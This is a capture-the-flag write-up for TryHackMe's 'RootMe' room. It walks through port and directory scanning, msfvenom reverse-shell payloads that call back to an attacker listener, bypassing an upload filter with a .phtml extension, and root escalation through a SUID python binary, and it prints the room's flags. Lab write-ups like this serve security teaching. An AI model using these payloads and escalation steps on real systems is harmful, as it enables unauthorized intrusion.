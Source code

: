 ![RootMe Banner](https://assets.tryhackme.com/img/banners/default_tryhackme.png)

<p align="center">
   <img src="https://github.com/Kevinovitz/TryHackMe_Writeups/blob/main/rrootme/Rootme_Cover.png" alt="RootMe Logo">
</p>

# RootMe

This guide contains the answer and steps necessary to get to them for the [RootMe](https://tryhackme.com/room/rrootme) room.

## Table of contents

- [Reconnaissance](#reconnaissance)
- [Getting a shell](#getting-a-shell)
- [Privilege escalation](#privilege-escalation)

### Reconnaissance

1. Scan the machine, how many ports are open?

   We use `nmap` for this with:

   ```console
   nmap -sV -sS 10.10.77.33 -p-     
   ```

   RECON NMAP

   ><details><summary>Click for answer</summary>2</details>

2. What version of Apache is running?

   The Apache version can be seen from the scan. Otherwise add the `-sV` argument.

   ><details><summary>Click for answer</summary>2.4.29</details>

3. What service is running on port 22?

   This can also be found from the scan when using `-sV`.

   ><details><summary>Click for answer</summary>ssh</details>

4. Find directories on the web server using the GoBuster tool.

5. What is the hidden directory?

   Finding hidden directories, can be done with the following command:

   ```console
   gobuster dir -u 10.10.77.33:80 -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt
   ```

   RECON DIRECTORY

   One of these is not a standard folder for a webserver.

   ><details><summary>Click for answer</summary>/panel/</details>

### Getting a shell

1. user.txt

   The first to do is create a reverse shell payload. My first attempt was to use `msfvenom` to create a linux reverse tcp shell and output it as an `.elf` file.

   ```console
   msfvenom -p  linux/x64/meterpreter/reverse_tcp LHOST=10.10.82.70 LPORT=1337 -f elf -o letmein.elf
   ```

   SHELL PAYLOAD

   This can now be uploaded to the webserver.

   SHELL UPLOAD

   Unfortunately, I did not get a connection as the files was simply downloaded. We need to try a different format. Php is another usefull format for a reverse shell.

   ```console
   msfvenom -p php/reverse_php LHOST=10.10.82.70 LPORT=1337 -f raw > letmein.php
   ```

   SHELL PAYLOAD PHP

   SHELL UPLOAD PHP FAIL

   The server doesn't let us upload a `.php` file. This might be bypassed by renaming the file extension. Simply renaming to `.jpg.php` did not work in this case, but `.phtml` did.

   ```console
   mv letmein.php letmein.phtml 
   ```

   SHELL UPLOAD PHP RENAME

   SHELL UPLOAD PHP SUCCESS

   Now that it is uploaded we start our listener again and click on the file we uploaded in the `/uploads/` directory.

   ```console
   nc -nlvp 1337
   ```

   SHELL DIRECTORY

   Although the shell is connecting to our machine, it never seems to be fully established. So another method is in order. A pre-made php reverse shell can be obtained from 'pentestmonkey' on [github](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php).

   SHELL PHP SCRIPT

   We only need to add our own IP and port to listen on.

   SHELL PHP SCRIPT EDIT

   Save this file with the `phtml` extension en upload to the server. Setup the listener on port 1337 and execute the file from the `/uploads` page.

   SHELL CONNECTION

   Success!

   Now we can search for the file `user.txt` and open it to get our flag.

   ```console
   find / -name user.txt 2>/dev/null
   ```

   SHELL FLAG

   ><details><summary>Click for answer</summary>THM{y0u_g0t_a_sh3ll}</details>

### Privilege escalation

1. Search for files with SUID permission, which file is weird?

   Using: `find / -perm -4000 2>/dev/null` we can search for any binaries with their SUID bit set.

   PRIV SUID

   ><details><summary>Click for answer</summary>/usr/bin/python</details>

2. Find a form to escalate your privileges.

3. root.txt

   After we identify the outlier, we can go to the GTFO bins website to find out how we can abuse this specific binary.

   PRIV GTFO

   We need to add the path to the python binary on this machine to the command. Then we can simply run it in our shell.

   ```console
   /usr/bin/python -c 'import os; os.execl("/bin/sh", "sh", "-p")'
   ```

   PRIV ESCALATION

   We got root access!

   Now lets search for the root flag.

   ```console
   find /root -name root.txt 2>/dev/null
   ```

   PRIV ROOT FLAG

   ><details><summary>Click for answer</summary>THM{pr1v1l3g3_3sc4l4t10n}</details>